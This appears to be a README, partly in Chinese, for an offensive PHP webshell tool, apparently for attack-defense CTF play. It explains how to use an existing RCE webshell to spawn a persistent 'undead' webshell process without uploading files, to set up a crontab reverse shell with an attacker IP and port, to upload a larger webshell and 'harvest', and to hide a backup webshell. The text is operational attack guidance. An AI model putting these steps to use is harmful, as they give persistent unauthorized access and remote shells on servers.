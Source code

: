 [*] Usage :
        python master.py [no_file_shell] [webshell]
[*] Explain :
        no_file_shell:  undead shell without using script tags <?..?>, which looks like php -r
        webshell:       new webshell filename, which ALREADY modified in undead.php by $file

[*] ATTENTION :
        DO modify the reverse IP and PORT!!!


利用已存在的webshell（如RCE），在不上传文件的情况下，在服务器直接生成不死马进程，生成小马同时利用crontab反弹shell

1.修改不死马中反弹shell的ip和port
2.将已知的可利用webshell写入webshell.txt
3.将常规不死马的<?...?>标签去掉即可
4.执行python .\PostShell_no_file.py .\undead_no_file.php conf.bak.php
5.上传大马完成，收割


p.s.如有时间，找另一个隐蔽位置上传备份MD5不死马



python .\PostShell_no_file.py .\undead_no_file.php conf.bak.php